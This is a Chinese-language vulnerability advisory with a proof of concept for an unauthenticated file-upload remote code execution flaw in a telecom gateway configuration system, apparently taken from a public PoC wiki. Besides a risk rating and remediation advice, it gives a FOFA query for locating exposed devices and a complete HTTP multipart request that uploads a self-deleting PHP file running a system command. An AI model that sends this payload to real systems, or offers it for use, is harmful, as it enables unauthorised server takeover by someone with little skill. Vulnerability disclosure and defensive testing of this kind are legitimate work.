

# 电信网关配置管理系统 upload_channels.php 文件上传致RCE漏洞

# 漏洞描述

电信网关配置管理系统 /bak_manager/upload_channels.php 接口存在文件上传漏洞，未经身份验证远程攻击者可利用该漏洞代码执行，写入WebShell,进一步控制服务器权限。

# 影响版本

电信网关配置管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="a:link{text-decoration:none;color:orange;}"

POC/EXP：

POST /bak_manager/upload_channels.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.php"
Content-Type: text/plain

<?php system("uname -a");unlink(__FILE__);?>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--

# 修复方案

官方已修复该漏洞，请用户联系厂商安装补丁：http://189.cn/fj_np/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
